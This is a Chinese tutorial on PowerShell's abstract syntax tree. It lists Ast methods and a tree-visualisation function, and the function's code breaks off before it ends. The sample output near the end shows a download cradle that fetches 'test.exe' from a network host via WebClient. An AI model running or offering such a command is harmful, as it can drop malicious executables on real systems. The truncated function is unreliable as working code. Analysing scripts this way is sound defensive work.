 抽象语法树(AST) 是Ast对象的树。这棵树的顶部是解析器返回给您的内容。遍历抽象语法树时遇到的任何Ast对象都具有Parent和Extent属性。Parent定义树关系，Extent定义Ast对象涵盖的PowerShell代码。

常见方法如下：

```
Name                   Signature
----                   ---------
Copy                   System.Management.Automation.Language.Ast Copy()
Find                   System.Management.Automation.Language.Ast Find(System.Func[System.Management.Automation.Language.Ast,bool] predicate, bool searchNestedScriptBlocks)
FindAll                System.Collections.Generic.IEnumerable[System.Management.Automation.Language.Ast] FindAll(System.Func[System.Management.Automation.Language.Ast,bool] predicate, b...
Visit                  System.Object Visit(System.Management.Automation.Language.ICustomAstVisitor astVisitor), void Visit(System.Management.Automation.Language.AstVisitor astVisitor)

```

---


## 三.抽象语法树可视化

### 1.官方示例

It may be helpful to add the Ast object relationships to the output, and visualize the tree, and how the objects are nested. That’s why I created `Convert-CodeToAst` that takes any simple (or complex) PowerShell code (scriptblock) and outputs the object hierarchy and involved types:

```
function Convert-CodeToAst
{
  param
  (
    [Parameter(Mandatory)]
    [ScriptBlock]
    $Code
  )


  # build a hashtable for parents
  $hierarchy = @{}

  $code.Ast.FindAll( { $true }, $true) |
  ForEach-Object {
    # take unique object hash as key
    $id = $_.Parent.GetHashCode()
    if ($hierarchy.ContainsKey($id) -eq $false)
    {
      $hierarchy[$id] = [System.Collections.ArrayList]@()
    }
    $null = $hierarchy[$id].Add($_)
    # add ast object to parent
    
  }
  
  # visualize tree recursively
  function Visualize-Tree($Id, $Indent = 0)
  {
    # use this as indent per level:
    $space = '--' * $indent
    $hierarchy[$id] | ForEach-Object {
      # output current ast object with appropriate
      # indentation:
      '{0}[{1}]: {2}' -f $space, $_.GetType().Name, $_.Extent
    
```

[NamedBlockAst]: $a = 1
[NamedBlockAst]: powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe')